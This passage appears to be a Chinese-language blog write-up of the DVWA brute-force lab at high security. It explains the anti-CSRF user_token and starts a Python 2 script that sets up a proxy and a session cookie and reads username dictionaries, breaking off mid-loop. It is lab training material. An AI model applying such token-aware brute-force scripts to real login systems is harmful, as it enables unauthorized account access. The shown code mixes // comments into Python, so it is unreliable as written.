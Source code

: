 ```php

?>
```

先看获取用户输入的参数的时候又多了一个`stripslashes()`函数
> stripslashes() 函数删除由 addslashes() 函数添加的反斜杠

也是为了防止注入的

还有个`checkToken()`函数

Token，可以抵御CSRF攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：`username`、`password`、`Login`以及`user_token`

```
Referer: http://192.168.96.128/dvwa/vulnerabilities/brute/?username=admin&password=password&Login=Login&user_token=3f20d7a28a519a79c7bac90855c04c8b
```

每次访问返回页面都包含token值.而且这个返回的token是不一样的

```
<input type='hidden' name='user_token' value='71452a57a65cbfd58568c78bbca670f5' /> //第一次

<input type='hidden' name='user_token' value='92e10646c8b9f1d1b748a33ec885dabf' />  //第二次
```

流程是这样的
![](https://e1sewhere.github.io/images/006.png)

每次服务器返回的登陆页面中都会包含一个随机的user_token的值，用户每次登录时都要将user_token一起提交。服务器收到请求后，会优先做token的检查，再进行sql查询
所以这个token用来验证你的请求,有效防止了机器暴力破解.

这里是修改别人的脚本,也是我的第一个脚本

```python
# -*- coding: utf-8 -*-
import urllib,urllib2
import cookielib
import re
import random

IP = '192.168.96.128'
iplist = ['127.0.0.1:8080']
username = 'admin'
password = 'password'
# LoginUrl = 'http://' + IP + '/dvwa/vulnerabilities/brute/'
usernames = []
passwords = []

#声明一个CookieJar对象实例来保存cookie
cookie = cookielib.CookieJar()
#利用urllib2库的HTTPCookieProcessor对象来创建cookie处理器
handler=urllib2.HTTPCookieProcessor(cookie)
#通过handler来构建opener
proxy_handler = urllib2.ProxyHandler({'http':random.choice(iplist)})   //
opener = urllib2.build_opener(proxy_handler)
opener.addheaders = [('User-agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0')]
opener.addheaders.append(('Cookie', 'security=high; PHPSESSID=897875ebe1aaf7d0bff721af4dac4735'))
#此处的open方法同urllib2的urlopen方法，也可以传入request

# 读取字典值
with open('username.txt', 'r') as f:  //with as读取并赋值给f,同时封装了错误处理,代开关闭文件对象的方法
    for line in f.readlines():        //readlines() 方法用于读取所有行(直到结束符 EOF)并返回列表，该列表可以由 Python 的 for... in ... 结构进行处理。如果碰到结束符 EOF 则返回空字符串。
        line = line.strip().split('\t', 1) //strip() Python strip() 方法用于移除字符串头尾指定的字符（默认为空格或换行符）或字符序列。注意：该方法只能删除开头或是结尾的字符，不能删除中间部分的字符。
```